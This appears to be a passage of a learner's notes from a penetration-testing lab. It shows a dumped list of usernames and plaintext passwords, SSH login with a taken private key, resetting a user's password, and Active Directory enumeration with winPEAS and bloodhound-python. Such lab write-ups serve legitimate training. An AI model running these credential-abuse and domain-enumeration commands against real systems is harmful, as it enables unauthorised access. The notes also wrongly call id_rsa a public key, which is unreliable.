 Raw Data:
```
asmith Princess1
smoggat Summer2019
tmodle P45678!
ccraven Password1
kploty Teacher65
jbercov 4567Holiday1
whaguey acb123
dcamtan WorldOfWarcraft67
tspadly RopeBlackfieldForwardslash
ematlis JuneJuly1TY
fglacdon FinalFantasy7
tmentrso 65RedBalloons
dharding WestminsterOrange5
smillar MarksAndSparks91
bjohnston Bullingdon1
iahmed Sheffield23
plongbottom PowerfixSaturdayClub777
jcarrot Tanenbaum0001
lgesley SuperStrongCantForget123456789
```

I went ahead and downloaded the id\_rsa (which is the public key) from katwamba's user folder into my local priv\_keys directory and was able to ssh into the machine.
```
proxychains ssh katwamba@172.16.1.20 -i id_rsa
```

I'm thinking maybe I can upload a powershell script to gather information to then import into bloodhound especially since this is a domain controlled DC. I ran winPEAS and saved the results locally in my root directory as:
```
reszults.txt
```

I also found the following resource in the results of the winPEAS scan which may assist me with gaining admin privs. It seems there is another user '**MediaAdmin$**' I may need to look into.:
<https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files>

I went ahead and created a new password for katwamba with:
```
net user katwamba password123!
```

After failing to use sharphound, I got a nudge and found the correct syntax to use the bloohound-python tool.:
```
proxychains bloodhound-python -d dante.local -v --zip -c All -u katwamba -p password123! -ns 172.16.1.20 --dns-tcp
```

**_bloodhound-python -d \[domain-name\] -v --zip -c All -dc \[domain-controller-ip/name\] -u \[pwned\_user\] -p \[password\] -ns \[ip\_dns\] (--dns-tcp) # use dns-tcp if we sshuttle or chisel_**
